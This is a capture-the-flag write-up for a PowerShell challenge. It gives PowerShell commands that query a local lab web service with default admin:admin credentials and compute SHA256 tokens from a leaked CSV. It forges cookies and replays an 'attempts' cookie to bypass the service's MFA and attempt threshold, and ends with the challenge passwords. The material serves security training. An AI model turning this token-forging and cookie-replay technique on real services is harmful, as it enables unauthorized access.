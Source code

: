 
# Objective 10: PowerShell

**Difficultree: 🎄🎄🎄**  
**Location: Front Yard (Act 2), East**

The objective is to interact with a web service using PowerShell.

## Easy 🥈
For easy, the player is guided through different activities to familiarize with PowerShell.


1:
```powershell
type welcome.txt
```

2:
```powershell
Get-Content welcome.txt | Measure-Object –Word
```

3:
```powershell
netstat -an
```

4:
```powershell
Invoke-WebRequest -URI http://127.0.0.1:1225
```

5:
```powershell
$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))
$basicAuthValue = "Basic $encodedCreds" 
$Headers = @{ Authorization = $basicAuthValue }
Invoke-WebRequest -URI http://127.0.0.1:1225 -Headers $Headers
```

6:
```powershell
foreach ($url in ((Invoke-WebRequest -URI http://127.0.0.1:1225 -Headers $Headers).Links).href){  (Invoke-WebRequest -URI $url -Headers $Headers | Measure-Object –Word).Words  | %{if($_ -match "138"){ Write-Host $url }} }
(Invoke-WebRequest -URI http://localhost:1225/endpoints/13  -Headers $Headers).Content
```

7:
```powershell
(Invoke-WebRequest -URI http://localhost:1225/token_overview.csv  -Headers $Headers).Content
```

8:
```powershell
(Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```

9:
```powershell
$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$c = New-Object System.Net.Cookie('token',"5f8dd236f862f4507835b0e418907ffc",'/','localhost')
$s.Cookies.Add($c)
(Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```


10:
```powershell
$tok=((Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Links).href
$c2= New-Object System.Net.Cookie('mfa_token',$tok,'/','localhost')
$s.Cookies.Add($c2)
(Invoke-WebRequest -URI http://localhost:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```

11:
```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="))
```

`Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction`


**Achievement: [Silver] PowerShell**

## Hard 🥇
Starting with the `token_overview.csv`, the objective is to bypass the security systems of the application.

```
file_MD5hash,Sha256(file_MD5hash)
04886164e5140175bafe599b7f1cacc8,REDACTED
664f52463ef97bcd1729d6de1028e41e,REDACTED
3e03cd0f3d335c6fb50122553f63ef78,REDACTED
f2aeb18f5b3f08420eed9b548b6058c3,REDACTED
32b9401a6d972f8c1a98de145629ea9d,REDACTED
3a79238df0a92ab0afa44a85f914fc3b,REDACTED
49c2a68b21b9982aa9fd64cf0fd79f72,REDACTED
f8142c1304efb9b7e9a7f57363c2d286,REDACTED
706457f6dd78729a8bed5bae1efaeb50,REDACTED
bb0564aa5785045937a35a9fa3fbbc73,REDACTED
4173a7bc22aee35c5fc48261b041d064,REDACTED
198b8bf2cd30a7c7fed464cca1720a88,REDACTED
3a7c8ecffeeadb164c31559f8f24a1e7,REDACTED
288e60e318d9ad7d70d743a614442ffc,REDACTED
87ab4cb29649807fdb716ac85cf560ea,REDACTED
89f3ec1275407c9526a645602d56e799,REDACTED
33539252b40b5c244b09aee8a57adbc9,REDACTED
152899789a191d9e9150a1e3a5513b7f,REDACTED
7cd48566f118a02f300cdfa75dee7863,REDACTED
d798a55fca64118cea2df3c120f67569,REDACTED
6ef5570cd43a3ec9f43c57f662201e55,REDACTED
bf189d47c3175ada98af398669e3cac3,REDACTED
743ac25389a0b430dd9f8e72b2ec9d7f,REDACTED
270aabd5feaaf40185f2effa9fa2cd6e,REDACTED
8b58850ee66bd2ab7dd2f5f850c855f8,REDACTED
6fd00cbda10079b1d55283a88680d075,REDACTED
612001dd92369a7750c763963bc327f0,REDACTED
010f2cc580f74521c86215b7374eead6,REDACTED
29860c67296d808bc6506175a8cbb422,REDACTED
7b7f6891b6b6ab46fe2e85651db8205f,REDACTED
45ffb41c4e458d08a8b08beeec2b4652,REDACTED
d0e6bfb6a4e6531a0c71225f0a3d908d,REDACTED
bd7efda0cb3c6d15dd896755003c635c,REDACTED
5be8911ced448dbb6f0bd5a24cc36935,REDACTED
1acbfea6a2dad66eb074b17459f8c5b6,REDACTED
0f262d0003bd696550744fd43cd5b520,REDACTED
8cac896f624576d825564bb30c7250eb,REDACTED
8ef6d2e12a58d7ec521a56f25e624b80,REDACTED
b4959370a4c484c10a1ecc53b1b56a7d,REDACTED
38bdd7748a70529e9beb04b95c09195d,REDACTED
8d4366f08c013f5c0c587b8508b48b15,REDACTED
67566692ca644ddf9c1344415972fba8,REDACTED
8fbf4152f89b7e309e89b9f7080c7230,REDACTED
936f4db24a290032c954073b3913f444,REDACTED
c44d8d6b03dcd4b6bf7cb53db4afdca6,REDACTED
cb722d0b55805cd6feffc22a9f68177d,REDACTED
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

The header leaks already, that the right hand side is a SHA256 hash of the left hand side. Some tests with [CyberChef](https://gchq.github.io/CyberChef/#recipe=SHA2%28%27256%27,64,160%29&input=NWY4ZGQyMzZmODYyZjQ1MDc4MzViMGU0MTg5MDdmZmMK) show, that this is in fact the SHA256 hash of the hex string as found on the left with a linefeed appended.

With that, all tokens can be used for validation.

Calling the token validation service returns, that a "fakeout threshold" is set to 10, in addition a cookie "attempts" is set to the [base64](https://gchq.github.io/CyberChef/#recipe=From_Base64%28%27A-Za-z0-9+/=%27,true,false%29&input=YzI1aGEyVnZhV3dLMDE) of `snakeoil`with an increasing integer appended.

Iterating over all tokens while maintaining the cookie provided access to the production and deployment of the snow cannons.

```powershell
$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
ForEach ($row in $( Invoke-WebRequest -URI http://localhost:1225/token_overview.csv  -Headers $Headers).Content -split "`r`n"){
  $token=($row -split ",")[0]
  $c = New-Object System.Net.Cookie('token',$token,'/','localhost')
  $s.Cookies.Add($c)
  $string=$token+"`n"                                        
  $hashBytes = $Sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($string))
  $hash = [System.BitConverter]::ToString($hashBytes)                             
  $sha256hash=$hash.toUpper() -replace "-", ""
  $url="http://localhost:1225/tokens/"+$sha256hash                                             
  (Invoke-WebRequest -URI $url -Headers $Headers -WebSession $s).Content
  $tok=((Invoke-WebRequest -URI $url -Headers $Headers -WebSession $s).Links).href
  $c2= New-Object System.Net.Cookie('mfa_token',$tok,'/','localhost')
  $s.Cookies.Add($c2)
  $url="http://localhost:1225/mfa_validate/"+$sha256hash
  $ret=(Invoke-WebRequest -URI $url  -Headers $Headers -WebSession $s)
  $ret.Content |Add-Content -Path l
  $cook=($ret.Headers['Set-Cookie'] -split ";" -split "attempts=")[1]
  $c3= New-Object System.Net.Cookie('attempts',$cook,'/','localhost')
  $s.Cookies.Add($c3)
}
```

`<h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
`

**Achievement: [Gold] PowerShell**
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTEyMTkzNTQ4NF19
-->